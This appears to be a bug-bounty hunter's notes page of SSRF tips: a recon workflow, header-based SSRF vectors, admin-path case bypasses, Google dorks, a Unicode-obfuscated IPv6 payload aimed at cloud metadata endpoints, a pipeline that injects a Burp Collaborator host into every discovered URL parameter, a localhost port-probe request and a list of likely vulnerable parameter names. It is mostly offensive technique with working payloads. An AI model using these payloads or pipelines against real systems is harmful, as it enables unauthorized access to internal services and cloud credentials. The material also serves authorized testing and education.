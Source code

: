 -> tool --> autorepeater


<mark style="background: #FFB8EBA6;">TIP 1</mark>
Setp 1: Find subdomanis 
Step 2 : FInd alive subdomains
Step 3: Run waybackurls in active subdomains 
Step 4 : After getting urls >> get active urls
Step 5: Search for keywords like:- `password, username, mail.com, token, access_token, url=, redirect_url, api_id, accessUrl, payment and other dorks use to find open redirects`
Step 6: Put burp collab server in the endpoint.
Step 7: To show more impact add port number at the end burp collab server domain --> it find out other services like SMTP also.

<mark style="background: #FFB8EBA6;">TIP 2</mark>
--> SSRF through Referer headers.
--> SSRF through X-Forwarded(or other header it use) Header
--> SSRF through Origin 

<mark style="background: #FFB8EBA6;">TIP 3</mark>
--> Maybe /admin cannot be access but /ADMIN , /Admin, /ADMin/ can access

<mark style="background: #FFB8EBA6;">TIP 4</mark>
Doogle dork --> inurl:http | inurl:proxy= | inurl:html= | inurl:data= | inurl:resource= inurl:& site:target[.]com

--> inurl:http | inurl:url= | inurl:path= | inurl:dest= | inurl:html= | inurl:data= | inurl:doman= | inurl:page= inurl:& site:example[.]com

<mark style="background: #FFF3A3A6;">TIP 5</mark>
-->bypassed a SSRF WAF by using a combination of IPV6 + Unicode. Payload for Metadata instances: http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80

<mark style="background: #FF5582A6;">Tip 6</mark>
`cat subdomins.txt | httpx -silent -threads 1000 | gau | waybackurls | grep "=" | qsreplace burpcollaborator.net`

<mark style="background: #FF5582A6;">TIP 7</mark>
GET http://localhost:22 HTTP/1.1
Host: target 
Connection: close

<mark style="background: #FF5582A6;">TIp 8:-</mark>
here `_region=` parameter is vulnerable to SSRF because application take 
`_region` parameter value and do GET request likr GET `https://sns.region_paramtere_value.amazonaws.com`

--> PARAMETERS THAT ARE MOST LIKELY TO BE VULNERABLE TO SSRF
	1)dest  
    2) redirect  
     3)uri  
     4)path  
     5) continue  
      6)url  
     7)window  
    8)next  
   9)data  
   10)reference  
   11)site  
   12)html  
   13)val  
   14)validate  
   15)domain  
    16)callback  
   17)return  
    18)page  
   19)feed  
    20)host  